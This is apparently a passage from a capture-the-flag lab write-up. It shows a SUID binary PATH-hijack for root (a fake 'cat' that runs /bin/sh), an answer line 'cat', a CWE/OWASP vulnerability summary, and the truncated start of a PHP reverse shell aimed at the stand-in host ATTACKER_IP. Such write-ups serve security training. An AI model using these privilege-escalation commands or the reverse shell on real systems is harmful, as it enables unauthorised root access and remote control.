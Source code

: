 **Exploitation Process:**
```bash
# Create malicious cat
echo "/bin/sh" > /tmp/cat
chmod +x /tmp/cat

# Modify PATH to prioritize /tmp
export PATH=/tmp:$PATH

# Execute bugtracker to trigger privilege escalation
/usr/bin/bugtracker
```

**Answer:** **cat**

---

## Exploitation Details

### Vulnerability Analysis

**1. Information Disclosure (CWE-200)**
- **Root Cause:** URL parameter `id` allows enumeration of user accounts without authorization
- **Risk Level:** Medium - Leads to credential discovery and privilege escalation
- **OWASP Classification:** A01:2021 – Broken Access Control

**2. Broken Access Control (CWE-285)**
- **Root Cause:** Client-side session management allows privilege escalation through cookie manipulation
- **Risk Level:** High - Direct admin access bypass
- **OWASP Classification:** A01:2021 – Broken Access Control

**3. Unrestricted File Upload (CWE-434)**
- **Root Cause:** No file type validation or content filtering on upload functionality
- **Risk Level:** Critical - Leads to Remote Code Execution
- **OWASP Classification:** A03:2021 – Injection

**4. SUID Binary PATH Manipulation (CWE-426)**
- **Root Cause:** Custom binary executes system commands without absolute paths
- **Risk Level:** High - Local privilege escalation to root
- **Impact:** Complete system compromise

### Exploit Development

**PHP Reverse Shell Payload:**
```php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = 'ATTACKER_IP';  // Change to your IP
$port = 1234;         // Change to your listening port
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
// ... [shell code continues]
?>
```
